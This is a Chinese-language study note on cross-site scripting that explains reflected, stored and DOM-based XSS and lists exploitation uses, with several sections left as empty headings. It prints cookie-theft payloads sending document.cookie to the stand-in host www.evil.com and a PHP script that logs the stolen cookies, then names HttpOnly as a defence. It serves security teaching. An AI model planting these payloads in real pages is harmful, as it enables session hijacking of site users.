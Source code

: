 ## 简介

XSS攻击，全称Cross Site Script攻击。通常是指黑客通过“HTML”注入篡改了网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。一般分为**反射型XSS**、**存储型XSS**和**基于DOM的XSS**。

1. **反射型XSS**：通常由黑客构造一个恶意的url，通过诱使用户点击实现攻击目的。
2. **存储型XSS**：黑客将恶意代码以博客或者其他形式存储到服务器上，每当其他用户浏览该内容时就会受到攻击。
3. **基于DOM的XSS**：这种XSS并不以“数据是否保存在服务器上”作为分类标准。从效果上，他是一种反射型XSS，但由于其独特的形成原因而单独列出。前端页面提供了用户修改DOM节点的功能，而用户通过输入攻击Payload达到插入脚本的目的，从而可以进一步实施更深入的攻击。

## XSS利用姿势

#### 1. Cookie窃取

可以使用下面的姿势将受害者cookie以GET的姿势发送到服务器上：

```js
<script>
document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>
```

远程服务器可以由配套接收cookie的服务器文件：

```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```

#### 2. 构造POST或者GET请求

利用插入在用户页面的XSS Payload，以用户的身份发送GET或者POST请求。Javascript可以发送GET、POST类型的请求，POST类型的请求也可以通过AJAX\(XMLHttpRequest或者ActiveXObject\)的方式发送。

#### 3. 钓鱼

#### 4. 挂马

#### 5. DOS或者DDOS

#### 6. XSS蠕虫

## 攻击姿势

通过XSS攻击，攻击者能够在用户当前浏览的页面中植入恶意脚本，并进而控制用户浏览器。这些脚本可以被称为攻击Payload。

###### 

## XSS防御

### 1. HttpOnly

可以对Cookie设置HttpOnly属性，从而禁止JavaScript对该类型Cookie的访问，从而防止了攻击者利用XSS窃取用户Cookie。

然而除了对Cookie的利用之外，XSS还有很多其他的利用手段。

### 2. 输入检查

### 3. 输出检查

> 参考：
>
> 1. 《白帽子讲Web安全》
> 2. [CTF-wiki: XSS cross-site scripting attack](https://ctf-wiki.github.io/ctf-wiki/web/xss-zh/)



